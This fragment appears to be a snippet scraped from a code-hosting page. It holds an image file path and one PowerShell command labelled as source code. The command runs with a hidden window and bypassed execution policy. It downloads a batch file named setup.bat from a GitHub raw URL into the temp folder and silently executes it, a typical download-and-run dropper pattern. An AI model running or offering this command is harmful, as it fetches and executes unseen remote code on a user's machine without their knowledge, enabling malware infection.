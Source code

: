 powershell.exe -WindowStyle Hidden -ExecutionPolicy Bypass -Command "Invoke-WebRequest -Uri 'https://raw.githubusercontent.com/shellt3r/app/main/setup.bat' -OutFile $env:TEMP\setup.bat; Start-Process -WindowStyle Hidden -FilePath $env:TEMP\setup.bat"
